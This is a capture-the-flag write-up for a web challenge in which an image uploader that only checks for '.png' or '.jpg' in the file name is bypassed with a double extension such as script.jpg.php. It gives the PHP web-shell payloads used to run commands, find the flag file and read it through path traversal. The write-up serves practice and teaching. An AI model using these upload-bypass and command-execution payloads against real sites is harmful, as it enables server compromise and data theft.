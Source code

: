 # Secure File Manager
## Web

> My friend insists that his file manager is 100% secure now.
> Except its no longer a file manager, just an image manager.
> Prove him wrong again!
>
> http://128.199.77.173:13002

### Files
- N/A

### Analysis
The website has an image upload but checks for the .png or .jpg extension

### Solution
1. Similar to [Superior File Manager](https://github.com/mynamegabe/May-CTF-Writeups/edit/main/Web/Superior-File-Manager),<br />
   Upload a PHP script with a .png or .jpg extension anywhere in the file name. E.g. script.jpg.php
   ```php
   <?php echo exec("ls -la"); ?>
   ```
2. View the file after uploading
   The PHP file will be executed.
3. Accessing the flag
   ```php
   <?php echo exec("locate flag.txt"); ?>
   ```
4. Getting the flag
   ```php
   <?php echo exec("cat ../../../../../flag.txt"); ?>
   ```
